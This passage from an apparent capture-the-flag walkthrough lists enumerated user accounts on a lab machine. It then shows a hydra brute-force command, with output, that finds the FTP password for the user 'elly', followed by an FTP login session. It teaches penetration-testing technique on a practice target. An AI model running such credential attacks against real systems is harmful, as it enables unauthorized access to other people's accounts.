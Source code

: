 ```
S-1-22-1-1021 Unix User\jess (Local User)
S-1-22-1-1022 Unix User\SHAY (Local User)
S-1-22-1-1023 Unix User\Taylor (Local User)
S-1-22-1-1024 Unix User\mel (Local User)
S-1-22-1-1025 Unix User\kai (Local User)
S-1-22-1-1026 Unix User\zoe (Local User)
S-1-22-1-1027 Unix User\NATHAN (Local User)
S-1-22-1-1028 Unix User\www (Local User)
S-1-22-1-1029 Unix User\elly (Local User)
```

Sick! We can go ahead and add these to our users file. Another way we could’ve gotten these was through using hydra on our elly account on ftp! This is through a cool flag I didn’t know about until reading a writeup for this machine once I finished it.

```
$ hydra -e nsr -l elly 192.168.217.148 ftp
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-15 11:52:08
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
[DATA] attacking ftp://192.168.217.148:21/
[21][ftp] host: 192.168.217.148   login: elly   password: ylle
```

With the `-e nsr` flag, hydra checks for a null password, checks if the username is used as the password, and checks of the password is the username but in reverse. You can always learn something from writeups, even if you’ve already rooted a box.

So after logging into elly’s ftp account we get this:

```
$ ftp 192.168.217.148                                                                                                 
Connected to 192.168.217.148.                                                                                           
220-                                                                                                                    
220-|-----------------------------------------------------------------------------------------|                         
220-| Harry, make sure to update the banner when you get a chance to show who has access here |                         
220-|-----------------------------------------------------------------------------------------|                         
220-                                                                                                                    
220                                                                                                                     
Name (192.168.217.148:kali): elly                                                                                       
331 Please specify the password.                                                                                        
Password:                                                                                                               
230 Login successful.                                                                                                   
Remote system type is UNIX.                                                                                             
Using binary mode to transfer files.                                                                                    
ftp> ls                                                                                                                 
550 Permission denied.                                                                                                  
```